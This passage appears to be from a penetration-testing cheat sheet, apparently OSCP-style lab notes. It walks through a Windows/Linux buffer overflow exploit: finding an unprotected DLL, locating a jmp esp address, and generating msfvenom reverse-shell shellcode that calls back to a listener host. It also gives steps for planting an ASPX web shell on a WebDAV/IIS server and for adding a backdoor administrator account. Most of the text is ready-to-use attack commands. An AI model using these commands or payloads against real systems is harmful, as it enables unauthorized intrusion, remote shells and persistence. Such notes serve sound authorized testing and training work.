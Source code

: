 10. In Immunity Debugger, check !mona modules for a DLL file that has Rebase, SafeSEH, ASLR, and NXCompat disabled. The base address for this DLL also can't include any bad characters. The linux equivalent is OpcodeSearcher.
11. Once you've found one, use this to look for the jmp esp instructions: ```!mona find -s "\xff\xe4" -m "libspp.dll"	```
12. Once you've found the address, use little endian format to replace the EIP variable in your script with it (e.g. 0x10090c83 = \x83\x0c\x09\x10)
13. Create a payload with your bad characters excluded: ```msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.223 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"```
14. Modify your payload to include 10 or so "nops" or \x90 before the shellcode. The payload order should go filler + eip + offset + nops + shellcode
15. Run a netcat listener on port 443 and execute python script.

* For windows shellcode: ```msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.223 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"```
* For linux shellcode: ```msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.223 LPORT=443 -b "\x00\x20" -f py -v shellcode```

## Use this script to monitor for scheduled processes running regularly:
```
#!/bin/bash

IFS=$'\n'

old_process=$(ps -eo command)

while true; do
   new_process=$(ps -eo command)
   diff <(echo "$old_process") <(echo "$new_process")
   sleep 1
   old_process=$new_process
done
```

## To find the DNS name of a server:
1. nslookup
2. server 10.10.10.13
3. 10.10.10.13

## If running webdav or IIS, try davtest. If it's successful, do this:
1. Copy a shell over as shell.txt
2. curl http://10.10.10.15/ --upload-file shell.txt
3. curl -X MOVE --header "Destination:http://10.10.10.15/shell.aspx" http://10.10.10.15/shell.txt

## To add a new Windows user:
   1) net users /add me mypassword123!
   2) net localgroup administrators me /add
   